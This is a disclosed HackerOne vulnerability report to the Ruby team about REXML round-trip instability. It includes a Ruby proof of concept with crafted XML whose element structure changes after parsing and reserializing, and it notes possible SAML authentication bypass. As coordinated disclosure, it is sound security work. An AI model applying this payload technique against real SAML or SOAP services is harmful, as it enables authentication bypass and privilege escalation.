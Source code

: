 # Round-trip instability in REXML

## Report Details
- **Report ID**: 1104077
- **URL**: https://hackerone.com/reports/1104077
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-16T08:10:08.618Z
- **Disclosed**: 2021-04-15T09:44:48.486Z

## Reporter
- **Username**: jupenur
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
**Submitted previously via email to security@ruby-lang.org due to REXML not being listed under in-scope assets here. Explicitly requested by @hsbt to re-submit through HackerOne.**

**CVSS rating calculated based on confirmed downstream impact.**

---

Hi Ruby Security Team,

I'm reaching out to you to report a vulnerability in REXML that renders downstream use-cases susceptible to varying degrees of tampering.

Conceptually the vulnerability is similar to Go encoding/xml bugs publicly disclosed in December. For context, high-level descriptions of those vulnerabilities can be found in the blog post at https://mattermost.com/blog/coordinated-disclosure-go-xml-vulnerabilities/ and in the advisories it references.

In the case of REXML, the specific vulnerability is best explained using a code example:

```Ruby
require 'rexml/document'

doc = REXML::Document.new <<XML
<!DOCTYPE x [ <!NOTATION x SYSTEM 'x">]><!--'> ]>
<X>
  <Y/><![CDATA[--><X><Z/><!--]]>-->
</X>
XML

puts "First child in original doc: " + doc.root.elements[1].name
doc = REXML::Document.new doc.to_s
puts "First child after round-trip: " + doc.root.elements[1].name
```

This program prints two lines of text:

```
First child in original doc: Y
First child after round-trip: Z
```

The output demonstrates how the structure of an XML document can change when parsed and serialized using REXML. The expected output from a well-behaving parser would be such where both lines end with "Y".

Regards,

Juho Nurminen
Staff Product Security Engineer, Mattermost, Inc.

## Impact

The impact of XML round-trip issues can vary significantly depending on context. SAML implementations affected by such issues can allow authentication bypasses and privilege escalation. SOAP endpoints can allow circumventing business logic or access controls. And in general XML processing loses integrity guarantees.

**We are aware of a major SAML implementation affected by this vulnerability**, resulting in critical impact in all applications that rely on it. The vulnerability has not been reported to the downstream maintainers since it is an issue in REXML.

## Attachments
No attachments
